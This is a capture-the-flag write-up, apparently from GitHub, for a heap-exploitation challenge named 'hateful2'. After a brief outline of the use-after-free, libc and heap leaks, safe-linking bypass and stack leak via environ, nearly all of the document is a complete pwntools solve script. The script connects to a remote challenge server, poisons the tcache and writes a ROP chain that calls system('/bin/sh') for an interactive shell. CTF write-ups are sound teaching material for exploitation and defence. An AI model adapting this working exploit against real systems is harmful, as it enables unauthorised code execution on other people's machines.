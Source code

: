 # hateful2

## Exploit

We have a use-after-free vulnerability.

- First we get a libc leap, using unsorted bin attack
- We also get heap leak to bypass safe-linking
- After that we leak the arguments in `environ` using the libc address, to get stack leak
- Now we can overwrite rip to our rop chain

the [solve script](solve.py)

```pytohn
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hateful2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("52.59.124.14",5022)

    return r

def malloc(idx,sze,pl):
    r.sendlineafter(b'>>',b'1')
    r.sendlineafter(b':',str(idx).encode())
    r.sendlineafter(b':',str(sze).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def edit(idx,pl):
    r.sendlineafter(b'>>',b'2')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def view(idx):
    r.sendlineafter(b'>>',b'3')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b':')
    return r.recvline().strip()
def free(idx):
    r.sendlineafter(b'>>',b'4')
    r.sendlineafter(b':',str(idx).encode())

r = conn()
for i in range(9):
    malloc(i,0x98,b'a')
for i in range(9):
    free(8-i)
libc.address = unpack(view(0),'all') - 0x1d2cc0
heap_base = unpack(view(8),'all')<<12
print("heap base:",(hex(heap_base)))
print("libc base:",hex(libc.address))
print("libc argv:",hex(libc.sym['environ']))
env = libc.sym['environ']
malloc(1,0x38,b'a')
free(1)
edit(1,b'a'*16)
free(1)
tw = (env & ~(0xf)) ^((heap_base)>>12)
edit(1,p64(tw)+b'a')
malloc(1,0x38,p8(tw & 0xff))
malloc(2,0x38,p8(env & 0xff))

sl = (unpack(view(2),'all')<<8)-0x118
print(f"rip : {hex(sl)}")
pop_rdi = libc.address + 0x277e5
print(f"pop rdi: {hex(pop_rdi)}")
binsh = next(libc.search(b'/bin/sh'))
print(f"binsh address : {hex(binsh)}")
ret = libc.address+0x26e99
#write to rip
malloc(4,0x38,b'a')
free(4)
edit(4,b'a'*16)
free(4)
tw = (sl & ~(0xf))^((heap_base)>>12)
edit(4,p64(tw))
malloc(4,0x38,p8(tw & 0xff))
malloc(4,0x38,b'a'*8+p64(ret) + p64(pop_rdi)+p64(binsh)+p64(libc.sym.system))
r.sendlineafter(b'>>',b'5')
r.interactive()
```


